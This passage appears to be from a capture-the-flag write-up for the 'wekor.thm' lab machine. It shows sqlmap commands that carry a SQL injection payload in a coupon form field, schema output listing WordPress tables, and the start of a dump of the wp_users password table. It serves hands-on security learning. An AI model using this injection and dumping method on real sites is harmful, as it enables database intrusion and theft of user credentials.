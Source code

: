 The database used by the site has only one table, and I already knew that coupon. I next looked for other databases. 

```bash
$ sqlmap -u http://wekor.thm/it-next/it_cart.php --forms "coupon_code=%27+or+1+%3D+1+Limit+0%2C+1+--+-&apply_coupon=Apply+Coupon" --schema

...
Database: wordpress
Table: wp_users
[10 columns]
+---------------------+---------------------+
| Column              | Type                |
+---------------------+---------------------+
| display_name        | varchar(250)        |
| ID                  | bigint(20) unsigned |
| user_activation_key | varchar(255)        |
| user_email          | varchar(100)        |
| user_login          | varchar(60)         |
| user_nicename       | varchar(50)         |
| user_pass           | varchar(255)        |
| user_registered     | datetime            |
| user_status         | int(11)             |
| user_url            | varchar(100)        |
+---------------------+---------------------+

Database: wordpress
Table: wp_terms
[4 columns]
+------------+---------------------+
| Column     | Type                |
+------------+---------------------+
| name       | varchar(200)        |
| slug       | varchar(200)        |
| term_group | bigint(10)          |
| term_id    | bigint(20) unsigned |
+------------+---------------------+

...

```

### Wordpress - Again

There is a wordpress database that contains the habitual Wordpress tables. So I dumped the wp_users table. This is the one that contains the passwords.

```bash
sqlmap -u http://wekor.thm/it-next/it_cart.php --forms "coupon_code=%27+or+1+%3D+1+Limit+0%2C+1+--+-&apply_coupon=Apply+Coupon" -D wordpress -T wp_users --dump
...

Database: wordpress
Table: wp_users
[4 entries]
+------+---------------------------------+------------------------------------+-------------------+------------+-------------+--------------+---------------+---------------------+-----------------------------------------------+
| ID   | user_url                        | user_pass                          | user_email        | user_login | user_status | display_name | user_nicename | user_registered     | user_activation_key                           |
+------+---------------------------------+------------------------------------+-------------------+------------+-------------+--------------+---------------+---------------------+-----------------------------------------------+
```
